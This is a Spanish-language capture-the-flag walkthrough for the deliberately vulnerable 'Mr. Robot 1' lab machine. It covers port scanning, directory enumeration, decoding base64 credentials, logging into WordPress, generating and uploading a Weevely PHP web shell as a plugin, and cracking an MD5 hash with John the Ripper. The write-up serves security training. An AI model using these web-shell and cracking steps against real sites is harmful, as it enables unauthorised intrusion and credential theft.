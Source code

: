 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=3CF700FF&width=400&height=70&lines=Mr.Robot_1"></a>
</p>
  
<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/mr-robot-1,151/

**[Online]:**

Root-Me: https://www.root-me.org/fr/Capture-The-Flag/CTF-all-the-day/test?lang=es

<h1 align="center"></h1>

</br>

- *Paso 1:* Escanear todos los puertos que están abiertos con Nmap. 
```
nmap -p- --open -sC -n -Pn -vvv ctf14.root-me.org
```
![1](https://user-images.githubusercontent.com/75953873/173256530-9e554740-e9d2-450e-8e1a-209d773c7247.png)

Puertos abiertos: [22,80,443]

- *Paso 2:* Enumerar directorios web con Dirb. 
```
dirb http://ctf14.root-me.org /usr/share/dirb/wordlists/small.txt
```
![2](https://user-images.githubusercontent.com/75953873/173256804-380ff8a7-8b69-4153-8ee8-8c1eb7c8eb0d.png)

URL objetivo: http://ctf14.root-me.org/license

![3](https://user-images.githubusercontent.com/75953873/173256860-82d25cc3-6a8c-4e59-97a8-cbe263df5162.png)

Credenciales ofuscadas a base64: **ZWxsaW90OkVSMjgtMDY1Mgo=**

- *Paso 3:* Decodificar credenciales con Python y Bash.

`Python:`
```python
import base64
key = 'ZWxsaW90OkVSMjgtMDY1Mgo='
print(base64.b64decode(key))
```

`Bash:`
```
echo 'ZWxsaW90OkVSMjgtMDY1Mgo=' | base64 -d
```
![4](https://user-images.githubusercontent.com/75953873/173257252-c7dac9d3-f612-44ff-b31b-9d9baf5d297e.png)

Usuario: `elliot`

Contraseña: `ER28-0652`

- *Paso 4:* Acceder al panel de administración de WordPress, generalmente se agrega `/wp-admin.php` o `/wp-login.php` al final del dominio.
```
http://ctf14.root-me.org/wp-login.php
```
![5](https://user-images.githubusercontent.com/75953873/173257567-b73aa894-5756-41d1-b73b-f31db5de3f3d.png)

Plugins **>** instalar plugins

![6](https://user-images.githubusercontent.com/75953873/173257615-a9b95d88-ca5a-4a92-95a3-3391c4bd38a3.png)

Agregar nuevo plugin **>** Subir plugin

![7](https://user-images.githubusercontent.com/75953873/173257639-ce85dec7-fc54-4830-88b4-f040fa379b14.png)

- *Paso 5:* Crear backdoor con Weevely.
```
weevely generate pass123 backdoor.php
```
![8](https://user-images.githubusercontent.com/75953873/173257694-583bc09c-8970-45bf-abd2-cd033643ef74.png)

- *Paso 6:* Subir backdoor como un plugin más.

![9](https://user-images.githubusercontent.com/75953873/173257782-8da08f9d-c687-458c-a84e-bb0cfd0ae0d0.png)

En el apartado de `Media` tenemos archivos e imágenes, el que nos interesa es el `backdoor.php` que acabamos de subir. Doble clic sobre él y copiamos la URL que esta en `Description`.

![10](https://user-images.githubusercontent.com/75953873/173257806-03d06d7d-9f12-4d0a-896a-daa654620609.png)

![11](https://user-images.githubusercontent.com/75953873/173257849-3f3aa920-9d27-4dd6-88fa-e26396948493.png)

URL: http://ctf14.root-me.org/wp-content/uploads/2022/06/backdoor.php

- *Paso 7:* Acceder al backdoor con Weevely.
```
weevely http://ctf14.root-me.org/wp-content/uploads/2022/06/backdoor.php pass123
```
![12](https://user-images.githubusercontent.com/75953873/173257930-15d0189a-e1bd-4a23-84df-7b79357ae5f5.png)

Entramos al direcorio `/home` **>** robot **>** `cat` para mostrar el contenido del archivo `password.raw-md5`.

![13](https://user-images.githubusercontent.com/75953873/173258021-b8bb555d-5578-4f35-a6ed-89c0c0a08a17.png)

Hash: `c3fcd3d76192e4007dfb496cca67e13b`

- *Paso 8:* Identificación de tipo de hash con Hash-Identifier.
```
hash-identifier
```
![14](https://user-images.githubusercontent.com/75953873/173258174-b4dc146e-bba1-4433-b52f-343b83020f9d.png)

Tipo de hash: MD5

- *Paso 9:* Desencriptar hash con JohnTheRipper y de forma online.
`JohnTheRipper:`
```
john --format=Raw-MD5 --wordlist=/home/whoami/crackMD5.txt hash.txt
```
![16](https://user-images.githubusercontent.com/75953873/173258469-18fcf953-77ba-4c07-b2e9-692086788ec8.png)

`Online:`
- https://hashtoolkit.com/decrypt-md5-hash/

![15](https://user-images.githubusercontent.com/75953873/173258477-324ff102-6b01-4c81-807b-6148b9fccbdd.png)

Clave desencriptada: 	`abcdefghijklmnopqrstuvwxyz`
